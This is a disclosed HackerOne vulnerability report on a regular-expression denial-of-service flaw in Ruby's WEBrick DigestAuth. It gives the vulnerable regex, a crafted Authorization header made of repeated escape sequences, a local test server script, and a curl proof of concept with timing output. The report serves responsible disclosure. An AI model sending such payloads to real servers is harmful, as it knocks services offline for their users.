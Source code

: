 # WEBrick::HTTPAuth::DigestAuth authentication is vulnerable to regular expression denial of service (ReDoS)

## Report Details
- **Report ID**: 661722
- **URL**: https://hackerone.com/reports/661722
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-27T05:44:24.810Z
- **Disclosed**: 2019-11-15T23:20:45.123Z

## Reporter
- **Username**: 358
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ruby

## Vulnerability Information
The private instance method `split_param_value` in class `WEBrick::HTTPAuth::DigestAuth` uses a regular expression that is vulnerable to denial of service due to catastrophic backtracking.

The regular expression is: ^\s*([\w\-\.\*\%\!]+)=\s*\"((\\.|[^\"])*)\"\s*,?
Source: https://github.com/ruby/ruby/blob/149e414ed529d27aaeb0543bc133e08c782d8d41/lib/webrick/httpauth/digestauth.rb#L295

Sample attack string that causes catastrophic backtracking: a="\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b

The issue can be reproduced with the following HTTP server configured with DigestAuth:

```
#!/usr/bin/env ruby

require 'webrick'

config = { :Realm => 'DigestAuth example realm' }

htdigest = WEBrick::HTTPAuth::Htdigest.new 'my_password_file'
htdigest.set_passwd config[:Realm], 'username', 'password'
htdigest.flush

config[:UserDB] = htdigest

digest_auth = WEBrick::HTTPAuth::DigestAuth.new config

auth_handler = proc do |request, response|
  digest_auth.authenticate request, response
end

server = WEBrick::HTTPServer.new :Port => 8000, :RequestCallback => auth_handler

server.mount_proc '/' do |req, res|
  res.body = 'hello, world'
end

trap 'INT' do server.shutdown end
server.start
```

Running the program above, an attacker can cause the HTTP server to consume 100% CPU by sending an authorization header that exploits the catastrophic backtracking.

Sample HTTP request with cURL:
```sh
$ time curl -I --header 'Authorization: Digest a="\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b' http://localhost:8000
HTTP/1.1 400 Bad Request 
Content-Type: text/html; charset=ISO-8859-1
Server: WEBrick/1.4.2 (Ruby/2.5.5/2019-03-15)
Date: Sat, 27 Jul 2019 05:38:27 GMT
Content-Length: 291
Connection: close


real	0m9.714s
user	0m0.013s
sys	0m0.003s
```

Note that it takes the HTTP server 9 seconds to respond that it's a bad request. A larger attack string, like 'Authorization: Digest a="\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b\b', would take much longer to evaluate.

## Impact

An attacker could cause an effective denial of service, by crafting an input which exploits catastrophic backtracking for the regular expression.

## Attachments
No attachments
